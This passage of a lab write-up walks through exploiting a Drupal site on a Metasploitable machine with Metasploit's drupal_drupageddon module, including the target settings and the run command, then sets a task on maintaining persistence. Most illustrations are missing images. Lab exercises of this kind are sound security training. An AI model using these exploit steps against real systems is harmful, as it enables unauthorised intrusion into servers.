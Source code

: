 ![alt text](image-46.png)
![alt text](image-47.png)

Give the ‘run’ or ‘exploit’ command, the tool will do the rest

![alt text](image-48.png)

I tried to access the shell and running commands:
![alt text](image-49.png)

### Drupal exploits on metasploit

![alt text](image-50.png)

use command:

```commmand
use exploit/multi/http/drupal_drupageddon
```

![alt text](image-51.png)

```commmand
show options
set RHOSTS 192.168.56.3
set TARGETURI /drupal/
```

![alt text](image-52.png)
![alt text](image-53.png)

Give the ‘run’ or ‘exploit’ command, the tool will do the rest

```commmand
run
```

![alt text](image-54.png)

we can see that we have access to the file by running the list files command.

---

## Task 4

Maintain persistence on the compromised Metasploitable machine.

>

Hint: TA0003
More hints: T1098.004, T1053.003, T1053.005, T1505.003

>

---